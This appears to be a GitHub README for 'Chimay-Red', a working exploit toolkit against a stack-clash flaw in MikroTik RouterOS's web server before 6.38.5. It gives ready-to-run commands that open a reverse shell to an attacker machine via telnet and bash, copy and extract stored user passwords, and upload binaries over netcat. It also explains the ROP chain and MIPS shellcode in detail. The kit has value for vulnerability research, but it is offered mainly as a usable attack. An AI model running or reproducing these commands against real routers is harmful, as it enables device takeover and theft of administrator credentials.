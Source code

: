 # Chimay-Red
Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks  

See the PDF for more info 

# Vulnerable versions  
Until RouterOS 6.38.4  

What's new in 6.38.5 (2017-Mar-09 11:32):  
!) www - fixed http server vulnerability;

# Proof of concepts
## CrashPOC  
Simple crash sending -1 as content-length in post header 

## StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

# Working exploits
## StackClash_x86  
Stack clash exploit using two threads  with ROP chain to run bash commands  

### For a reverse shell:  
```
$ nc -l -p 1234  # (in another shell)
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

### To extract users and passwords
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "cp /rw/store/user.dat /ram/winbox.idx"
$ sleep 3 # (wait some seconds that www is restarted)
$ curl -s http://192.168.8.1/winbox/index | ./tools/extract_user.py -
```

As the ROP is dynamically created, you have to extract the `www` binary from the RouterOS firmware.   
(It's placed in `/nova/bin/`)  
Check that the running version is the same.  
To simplify extraction you can use:
```
$ ./tools/getROSbin.py 6.38.4 x86 /nova/bin/www www_binary
```

## StackClash_mips  
Stack clash exploit using two threads with ROP chain + shell code to run bash commands  
On mips version of www the stack is RWX, so we can jump to the stack.

You can run the same bash command as the x86 version.  
The exploit is dynamically created, so it should work on any version minor than 6.38.4.  

### LCD  
Funny command  
```
$ ./tools/getROSbin.py 6.38.4 mipsbe /nova/bin/www www_binary
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "echo hello world > /dev/lcd"
```
![image](https://github.com/BigNerd95/Chimay-Red/raw/master/docs/screen_image.jpg)  

### Upload binaries
On PC run:  
```
$ hexdump -v -e '"echo -e -n " 1024/1 "\\\\x%02X" " >> /ram/busybox\n"' busybox-mips | sed -e "s/\\\\\\\\x  //g" | nc -l -q 0 -p 1234
```  
In another shell run reverse shell command.  
Once the file is uploaded, run again reverse shell (this time only with `nc -l -p 1234`) and you will find busybox inside `/ram/`.

# FAQ
#### Where does one get the chimay-red.py file, that this tool kit relies on?  
This is a reverse engineering of leaked CIA documentation.  
There is no chimay-red.py publicly available.  

#### I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:  
We know that:  
- each thread has 128KB of stack  
- each stack of each thread is stacked on the top of the previous thread.  

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.  
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).  
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.  
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

##### x86  

The ROP chain construct "system" string and "your_shell_cmd" string looking for chunks of strings inside the binary and concatenating them in an unused area of memory.  
Then we return to "dlsym" function (present in the PLT) passing as argument the address of just created string "system" to find the address of "system" function.   
Now we can return to the address of system passing as argument the address of the just created string "your_shell_cmd".  

##### mips
DEP is disabled on this version of www, so I can execute the stack.  
But I cannot use system function because "/bin/sh" is not present on the file system, so I used execve directly.  
A small ROP (3 gadgets) find the address of a location on the stack (where I put the shell code), and then jump to that address.  
In the shell code I populate an array of 4 pointers with the address of the strings "/bin/bash", "-c", "your_shell_cmd" using the leaked address of the stack (the last pointer is left NULL).  
Then I populate a0, a1, a2 with rispectively: address of "/bin/bash", address of the array populated at the preceeding step and the address of the NULL entry of the array.  
At this point I can launch the syscall 4011 (execve) to execute my bash command.  

# Comments  
- On very old versions like 6.18, the stack size is not 128KB, so the exploit doesn't work, i'll fix it in the future  
- If the exploit doesn't work on recent version, make it crash with CrashPOC 3 or 4 times, then launch immediately StackClash and it will work  
